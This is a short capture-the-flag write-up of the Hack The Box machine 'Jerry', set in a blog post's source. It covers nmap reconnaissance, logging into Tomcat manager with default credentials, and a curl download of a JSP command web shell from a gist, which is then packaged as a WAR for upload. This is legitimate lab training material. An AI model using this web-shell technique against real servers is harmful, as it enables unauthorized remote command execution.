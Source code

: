 ```yaml
---
layout: ../../layouts/PostLayout.astro
title:  "HTB(Jerry) Write UP No Metasploit"
date:   2019-08-12 19:37:21 -0400
categories: CTF
---
```

<head>
	<style>
		body {
			background-color: #161b22;
			color: #c9d1d9;
		}
		a:hover, a:visited:hover{
			color:red;
		}
		a:visited {
			color: #c9d1d9;
		}
	</style>
</head>
<h1> HTB(Jerry) Write UP No Metasploit</h1>
Quick write up on Jerry from HTB
{% highlight cmd %}
nmap -sC -sV 10.10.10.95
{% endhighlight %}

returns tomcat on 8080

<img src="/assets/img/jerrynmap.png" alt="drawing" width="450"/>

Go the 10.10.10.95:8080 and check it out, server status asks for a password. admin:admin works.
nothing too crazy there, try going to the manager app link.

<img src="/assets/img/tomcat1.png" alt="drawing" width="250"/>

admin:admin doesnt work. the 404 page says the default is tomcat:s3cret......clear your cache and that works. Also could be brute forced with hydra.
Using SecLists From github, they have wordlist specific to tomcat

<img src="/assets/img/tomcat2.png" alt="drawing" width="750"/>

If you scroll down you see you can upload war files. i think kali comes with one by default you could try. In this dir /usr/share/webshells/ but
i just googled for jsp shells and found this https://gist.github.com/nikallass/5ceef8c8c02d58ca2c69a29a92d2f461 clicked on raw,
{% highlight bash %}
curl https://gist.githubusercontent.com/nikallass/5ceef8c8c02d58ca2c69a29a92d2f461/raw/8656cc80ace93c8095b0c7d0c45b917d542fed5c/cmd.jsp > cmd.jsp
{% endhighlight %}
and was able to download it, server only allows war files, so run this in bash
{% highlight bash %}
 zip cmd.war cmd.jsp
{% endhighlight %}
